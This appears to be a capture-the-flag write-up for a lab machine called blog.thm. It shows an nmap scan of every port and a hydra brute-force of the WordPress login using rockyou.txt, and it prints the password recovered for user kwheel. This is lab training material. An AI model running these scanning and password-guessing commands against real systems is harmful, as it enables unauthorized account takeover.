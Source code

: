 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx blog.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV blog.thm
```

we got these open ports
```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



```
(kali㉿kali)-[~]
└─$ hydra -I -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username"   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-29 14:10:36
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://blog.thm:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username
[STATUS] 295.00 tries/min, 295 tries in 00:01h, 14344104 to do in 810:25h, 16 active
[STATUS] 285.00 tries/min, 855 tries in 00:03h, 14343544 to do in 838:49h, 16 active
[ERROR] Can not create restore file (./hydra.restore) - Permission denied
[STATUS] 289.43 tries/min, 2026 tries in 00:07h, 14342373 to do in 825:55h, 16 active
[80][http-post-form] host: blog.thm   login: kwheel   password: cutiepie1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-29 14:20:51
```
cutiepie1
